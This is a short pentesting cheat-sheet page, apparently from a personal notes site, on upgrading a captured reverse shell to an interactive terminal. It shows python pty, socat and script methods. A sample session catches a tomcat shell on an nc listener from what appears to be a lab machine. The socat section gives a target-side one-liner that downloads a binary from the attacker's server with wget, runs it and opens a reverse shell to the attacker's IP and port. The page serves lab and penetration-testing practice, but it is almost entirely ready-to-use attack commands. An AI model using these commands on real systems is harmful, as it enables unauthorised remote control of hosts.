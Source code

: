 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["Reverse Shell", "Shell", "Python", "Bash", "Sh", "Tty", "Socat"]
---
```


### Upgrade Shell

#### Check installed binaries

```console
which sh
```

```console
which bash
```

```console
which python3
```

```console
which python
```

{{< tab set1 tab1 >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.55] 33490
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ 
zsh: suspended  rlwrap nc -lvnp 1337
```

```console
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```console {class="sample-code"}
$ stty raw -echo; fg
[1]  + continued  rlwrap nc -lvnp 1337
tomcat@kotarak-dmz:/$ 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Start a local http server
python3 -m http.server 80
```

```console
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:<LOCAL_PORT>
```

```console
# In target machine
wget -q http://<LOCAL_IP>/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# In our local Linux machine
export TERM=xterm-256color
```

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
script -qc /bin/bash /dev/null
```

{{< /tabcontent >}}
